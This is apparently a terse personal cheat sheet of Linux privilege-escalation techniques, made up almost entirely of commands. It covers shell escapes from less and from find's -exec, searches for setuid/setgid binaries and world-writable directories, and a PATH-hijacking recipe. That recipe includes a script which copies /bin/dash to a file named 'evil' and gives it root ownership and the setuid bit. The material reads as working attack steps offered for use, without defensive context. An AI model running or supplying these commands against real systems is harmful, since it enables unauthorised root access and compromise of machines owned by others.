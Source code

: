 #less
less /var/log/messages; then inside less type "!/bin/bash

#find
find /var/log -name messages -exec /bin/bash -i \;

4. insecure permissions
a.
# By default home dirs are created world readable
- start-up scripts		~/bashrc's   /etc/systemd/  /lib/systemd/	
- possible cron jobs	/etc/crontab  (theres a few to look at)
- Follow the bouncing ball on what the scripts are calling...
b.
# To find setuid / setgid 
find / -perm -4000 -o -perm -2000 2>/dev/null
find /usr/bin -perm -4000 2>/dev/null

for i in $(find /usr/bin -perm -4000 2>/dev/null); do ls -lh $i;done



#find juicy dirs
find / -type d -perm -777 | xargs ls -ld

# find writable dirs
find / -type d -writable 2> /dev/null

for i in $(find / -perm -4000 -o -perm -2000 2>/dev/null); do ls -lha $i;done
for i in $(find /usr/bin -perm -4000 2>/dev/null); do ls -lha $i;done

# What does the bin or script call? look for exploitable 
ltrace /usr/bin/custom.sh
# Does anything lack a full path to the command?  If not create your own new command in local dir
# Make the new malicious script that calls #!/bin/dash as dash DOES NOT DROP setuid bits; where as bash does
----example-----
#!/bin/dash
cp /bin/dash evil
chown root:root evil
chmod u+s evil
-----------------
chmod 755 name-of-hijacked-command
# Now set your path up to hijack the command; this says grab anything from my local path first!
export PATH=.:$PATH
